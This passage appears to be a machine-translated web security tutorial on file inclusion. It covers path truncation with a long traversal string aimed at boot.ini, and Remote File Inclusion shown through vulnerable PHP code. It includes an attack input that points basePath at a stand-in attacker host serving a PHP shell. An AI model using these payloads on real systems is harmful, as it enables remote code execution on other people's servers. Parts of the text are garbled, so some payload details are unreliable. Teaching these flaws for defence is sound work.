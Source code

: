

Linux requires a file name longer than 4096 and Windows needs to be longer than 256.


- Point number truncation


  ```

? file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] …………
  ```



For Windows only, the dot number needs to be longer than 256.


### Remote file contains


The remote file contains, Remote File Inclusion, RFI.


```php

<?php

if ($route == "share") {

  require_once $basePath . "/action/m_share.php";

} elseif ($ route == &quot;sharelink&quot;) {
  require_once $basePath . "/action/m_sharelink.php";

}

```



Constructs the value of the variable `basePath`.


```

/?basePath=http://attacker/phpshell.txt?

```



The final code is executed


```php

require_once "http://attacker/phpshell.txt?/action/m_share.php";

```



The part after the question mark is interpreted as the querystring of the URL, which is also a kind of &quot;truncation&quot;.
